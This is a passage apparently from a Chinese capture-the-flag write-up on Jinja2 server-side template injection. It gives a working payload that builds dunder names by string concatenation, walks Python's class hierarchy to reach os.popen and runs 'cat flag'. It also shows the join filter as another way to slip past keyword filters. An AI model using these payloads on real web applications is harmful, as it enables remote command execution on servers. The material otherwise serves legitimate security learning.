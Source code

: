 ```plain
{%for i in ""["__cla"+"ss__"]["__mr"+"o__"][1]["__subcla"+"sses__"]()%}{%if i.__name__ == "_wrap_close"%}{%print i["__in"+"it__"]["__glo"+"bals__"]["po"+"pen"]('cat flag')["read"]()%}{%endif%}{%endfor%}
```

[![在这里插入图片描述](assets/1698900310-f40891046d3c77197bbc22e6328c51bc.png)](https://storage.tttang.com/media/attachment/2022/08/14/b6634ba4-f842-4074-8015-f0b69f29431e.png)

这里也可以考虑使用 join() 过滤器，它可以将字符串进行拼接，举个例子

```plain
dict(__in=a,it__=a)|join  =__init__
```
